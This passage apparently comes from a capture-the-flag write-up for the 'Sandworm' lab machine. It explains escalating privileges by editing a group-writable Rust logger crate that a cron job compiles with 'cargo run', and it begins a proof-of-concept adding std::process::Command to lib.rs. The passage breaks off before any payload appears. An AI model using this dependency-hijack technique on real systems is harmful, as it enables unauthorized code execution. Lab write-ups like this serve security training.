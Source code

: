     }



### Cargo Hijack

#### Strategy

Given that the binary is compiled each time the cron is executed
(because of `cargo run`), if I can modify any of the code, I can get
execution as atlas. I noted above that the `main.rs` file was not
writable. But the source for the `logger` library that's imported is:



    silentobserver@sandworm:/opt/crates/logger/src$ ls -l
    total 4
    -rw-rw-r-- 1 atlas silentobserver 732 May  4  2023 lib.rs



I'll modify that to get execution as atlas (presumably outside of the
jail, as `cargo` wasn't a binary inside the jail).

#### Note About Cleanup

The cleanup on this box is done in a rather annoying way, where it seems
to delete the entire `tipnet` directory and rebuild it. That means if I
have a shell in that directory when it happens, it gets lost. I found
the best way to modify this is to have the shell in `/opt`, and then
`vim crates/logger/src/lib.rs`. Then I can write my changes and get
another SSH session to look for results. By leaving `vim` open, even
when the cleanup deletes the directory and recreates it, my changes are
still in my copy. When I just save again, it will warn me:

![](/img/image-20231115072844509.png)

Entering `y` will save over the cleaned copy.

#### Modify lib.rs POC

There's a Rust struct (think object) named `Command`
\[[docs](https://doc.rust-lang.org/std/process/struct.Command.md)\].
I'll need to add `use std::process::Command` at the top, and then I'll
put my `Command` invocation at the bottom:



    use std::fs::OpenOptions;
    use std::io::Write;
    use chrono::prelude::*;
    use std::process::Command;

    pub fn log(user: &str, query: &str, justification: &str) {
        let now = Local::now();
        let timestamp = now.format("%Y-%m-%d %H:%M:%S").to_string();
        let log_message = format!("[{}] - User: {}, Query: {}, Justification: {}\n", timestamp, user, query, justification);
